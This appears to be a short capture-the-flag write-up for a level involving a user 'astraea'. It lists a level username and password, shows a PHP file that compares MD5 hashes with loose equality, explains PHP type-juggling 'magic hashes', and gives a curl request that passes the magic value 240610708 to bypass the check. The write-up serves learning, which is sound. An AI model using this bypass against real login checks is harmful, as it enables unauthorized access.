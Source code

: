 # username
asteria
# password
hawMVJCYrBgoDAMVhuwT
# mission contents
The user astraea believes in magic.
# method of solve
There's a `sihiri_old.php` file in the home directory. The contents are as follows:
```
<?php
$pass = hash('md5', $_GET['pass']);
$pass2 = hash('md5',"ASTRAEA_PASS");
if($pass == $pass2){
print("ASTRAEA_PASS");
}
else{
print("Incorrect ^^");
}
?>
```
The funny way that PHP handles data types, also known as the `type juggling` vulnerability, when applied to hash comparisons, this can result in magic hashes that match any md5 hash. More info can be found here:
`https://github.com/spaze/hashes/blob/master/md5.md`.
```
cat sihiri_old.php
curl http://localhost/sihiri.php?pass=240610708
```
